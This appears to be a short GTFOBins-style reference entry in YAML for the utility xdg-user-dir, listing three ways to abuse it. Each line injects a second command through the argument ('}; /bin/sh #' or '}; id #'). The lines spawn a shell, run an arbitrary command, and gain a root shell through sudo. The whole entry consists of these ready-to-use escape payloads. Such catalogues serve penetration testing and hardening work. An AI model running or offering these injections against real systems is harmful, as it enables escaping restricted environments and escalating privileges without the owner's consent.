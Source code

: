 ```yaml
---
functions:
  shell:
    - code: "xdg-user-dir '}; /bin/sh #'"
  command:
    - code: "xdg-user-dir '}; id #'"
  sudo:
    - code: "sudo xdg-user-dir '}; /bin/sh #'"
---
```

